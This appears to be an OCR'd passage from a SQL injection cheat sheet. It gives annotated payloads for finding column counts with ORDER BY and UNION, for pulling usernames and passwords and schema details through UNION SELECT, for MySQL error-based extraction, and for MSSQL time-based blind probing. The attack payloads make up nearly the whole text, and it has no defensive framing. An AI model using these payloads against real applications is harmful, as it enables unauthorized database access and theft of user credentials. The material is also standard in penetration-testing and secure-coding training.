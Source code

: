 ```sql
# Column number enumeration - Finding number of columns in original query
' ORDER BY 1--  # Tests if 1 column exists
' ORDER BY 2--  # Tests if 2 columns exist
# Continue incrementing until error occurs, revealing column count

# Alternative column enumeration using UNION
' UNION SELECT NULL--       # Tests for 1 column
' UNION SELECT NULL,NULL--  # Tests for 2 columns
# NULL values are used because they can convert to any data type

# Data extraction after finding column count
' UNION SELECT username,password FROM users--  
# Direct extraction of user credentials when 2 columns are confirmed

' UNION SELECT table_name,NULL FROM information_schema.tables--
# Lists all tables in database, NULL to match column count

' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users'--
# Lists all columns in users table
```

### Error Based Injection

Error-based injections extract data through database error messages. These are  particularly useful when you can see error output.

```sql
# MySQL error-based extraction
# Uses GROUP BY and RAND() to force a duplicate key error containing our data
AND (SELECT 6062 FROM(
    SELECT COUNT(*),
    CONCAT(0x716b627071,     # Prefix hex marker
        (SELECT version()),   # Data we want to extract
        0x7178707871,        # Suffix hex marker
        FLOOR(RAND(0)*2))x   # Forces the error
    FROM INFORMATION_SCHEMA.PLUGINS 
    GROUP BY x)a)

# Similar technique but extracting database name
AND (SELECT 2067 FROM (
    SELECT COUNT(*),
    CONCAT(0x716b627071,
        (SELECT database()),  # Extracts current database name
        0x7178707871,
        FLOOR(RAND(0)*2))x 
    FROM INFORMATION_SCHEMA.PLUGINS 
    GROUP BY x)a)

# MSSQL Time-based data extraction
# Uses IF statement with WAITFOR to check conditions
'; IF (SELECT system_user) = 'sa' WAITFOR DELAY '0:0:5'--
# Delays response by 5 seconds if current user is 'sa'

';IF (SELECT COUNT(name) FROM sysobjects WHERE name = 'sometable')>0 WAITFOR DELAY '0:0:5'--
# Delays response if table 'sometable' exists
```
